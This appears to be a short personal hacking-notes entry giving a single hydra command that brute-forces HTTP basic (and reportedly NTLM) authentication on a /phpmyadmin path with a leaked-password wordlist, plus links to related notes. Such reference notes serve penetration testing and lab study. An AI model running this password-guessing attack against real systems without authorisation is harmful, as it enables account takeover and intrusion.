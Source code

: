 # hydra brute force HTTP basic authentication also works for NTLM
```bash
hydra $IP http-get -L users  -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt /phpmyadmin
```

# Related

- [20221003150849](/zet/20221003150849/README.md) hydra brute force HTTP basic authentication
- ~/kb/hacking/commands/hydra-http-auth.md

Tags:

    #command #hacking #hydra 
